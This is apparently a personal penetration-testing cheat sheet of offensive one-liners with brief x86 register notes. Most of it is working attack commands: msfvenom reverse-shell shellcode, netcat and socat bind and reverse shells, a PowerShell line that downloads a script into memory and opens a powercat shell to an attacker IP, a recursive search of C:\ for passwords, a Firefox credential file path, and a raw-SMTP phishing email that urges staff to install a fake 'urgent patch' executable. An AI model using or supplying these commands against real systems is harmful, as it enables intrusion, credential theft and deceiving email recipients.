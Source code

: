 
# RESOURCES
## buffer overflow
#### x86 cheat sheet
https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf

#### registers
##### ESP - Stack Pointer
**STACK** keeps track of most recently referenced location (top) of the stack, stores pointer to it

##### EBP - Base Pointer
**STACK** points to the top of the stack when a function is called, used by a function to access information from its own stack frame

##### EIP - Instruction Pointer
points to the next code instruction to be executed, directs the flow of a program

##### EAX - Accumulator Register
used for arithmetic, interrupt calls, logical instructions

##### EBX - Base Pointer
used as a pointer for memory access

##### ECX - Counter Register
used as loop counter

##### EDX - Data Register
used in I/O port access, arithmetic

##### ESI - Source Index
used for string and array copying

##### EDI - Destination Index Register
pointer addressing data and destination in string/array copying

#### MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "BYTES_GO_here"
```

# COMMANDS
## netcat
#### file transfer
target machine
`nc -nlvp 9001 > incoming.exe`
local machine
`nc -nv IP.ADDR 9001 < EXAMPLE.exe`
(note: no output, must guess when upload complete)

#### bind shell
target
`nc -lnvp 9001 -e cmd.exe`
local
`nc -nv IP.ADDR 9001`

#### reverse shell
target
`nc -nv IP.ADDR 9001 -e /bin/bash`
local
`nc -lnvp 9001`

## socat
#### connecting
`socat - TCP4:10.11.0.22:110`

#### listener
host
`sudo socat TCP4-LISTEN:443 STDOUT`
local
`socat - TCP4:10.11.0.22:443`

#### file transfer
host
`sudo socat TCP4-LISTEN:443,fork file:EXAMPLE.txt`
local
`socat TCP4:10.11.0.4:443 file:EXAMPLE_NAME.txt,create`

#### reverse shell
local
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`
target
`socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

#### encrypted bind shells
create self-signed certificate
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`


## windows
## one-liners
#### dir and file
list all files current dir
`get-childitem -hidden` 

search C:\ for password
`ci -recurse C:\ | % { select-string -path $_ -pattern password} 2>$null`

base64
`certutil -encone/-decode <FILE> <OUTFILE>`

copy contents of file to clipboard
`Get-Content <FILENAME> | Set-Clipboard`

#### network file transfers
smb setup on nix
`$ sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1`

create cred object
```
> $pass = convertto-securestring 'password1' -AsPlainText -Force`
> $cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
> New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

#### PowerShell New-Object
Always try specifying full path. 
download file
`(New-Object System.Net.Webclient).DownloadFile("http://<IP>:<PORT>/<FILENAME>.exe","C:\<FILENAME>.exe")`

download a file and execute from memory with powercat
`IEX(New-Object System.Net.Webclient).DownloadString('http://10.1.1.1:8000/powercat.ps1');powercat -c 10.1.1.1 -p 8001 -e powershell.exe`

#### PowerShell Invoke-WebRequest
`powershell Invoke-WebRequest -url http://10.10.10.10:9000/file.txt`

shorthand
`powershell IWR -url http://10.10.10.10:9000/file.txt -OutFile C:\\Windows\\temp\\file.txt`



### smb
localhost
`sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1

``` 
$pass = convertto-securestring 'password1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\LOCAL_KALI_IP\tools
cd dials:
```

### credentials
```
C:\Users\clara\AppData\Roaming\Mozilla\Firefox\Profiles\ljftf853.default-release\key4.db
```
sharpweb?
python cracker?

### file transfer



### chisel
\*nix local
`./chisel server --reverse -p 9001`

win remote
`./chisel.exe client <IP.ADDR>:9001 R:<PORT_TO_FWD>:LOCALHOST:<PORT_TO_FWD>`



### msfvenom
generate shellcode, filtering out bad characters
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`


### smtp > netcat

smtp file contents:
```
HELO VICTIM
MAIL FROM: <rmurray@victim>
RCPT TO: <tharper@victim>
DATA
Subject: This is an urgent patch please install!

Please install this urgent patch

http://192.168.119.243:9002/reverse.exe

Sincerly, Ross

.
QUIT
```

`cat "smtp" |while read L; do sleep "1"; echo "$L"; done | "nc" -C -v "192.168.243.55" "25"`


